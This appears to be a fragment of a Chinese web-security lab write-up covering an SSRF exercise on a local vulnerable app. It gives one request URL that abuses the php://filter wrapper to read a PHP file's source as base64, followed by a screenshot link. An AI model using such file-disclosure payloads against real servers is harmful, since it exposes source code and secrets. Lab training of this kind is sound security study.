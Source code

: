 伪协议读取

```
http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```

![image-20250121075305365](../../_media/image-20250121075305365.png)
